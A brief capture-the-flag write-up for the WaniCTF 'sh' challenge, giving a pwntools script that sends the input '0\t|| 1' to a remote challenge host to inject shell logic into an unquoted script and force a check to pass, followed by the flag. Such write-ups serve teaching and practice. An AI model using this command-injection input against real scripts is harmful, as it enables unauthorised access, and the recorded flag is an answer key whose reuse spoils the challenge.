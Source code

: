 https://ctftime.org/event/2377

# sh (misc)

shellscript without double quotes

## Solution

```python
from pwn import *

r = remote("chal-lz56g6.wanictf.org", "7580")
r.sendline(f"0\t|| 1")
r.interactive()
```

- 0 to pass the grep check
- \t to trick printf, not fully sure how it works but i saw in some testcase on busybox
- || 1 to make test always true

## Flag
`FLAG{use_she11check_0r_7he_unexpec7ed_h4ppens}`

shafouz 2024/06/23
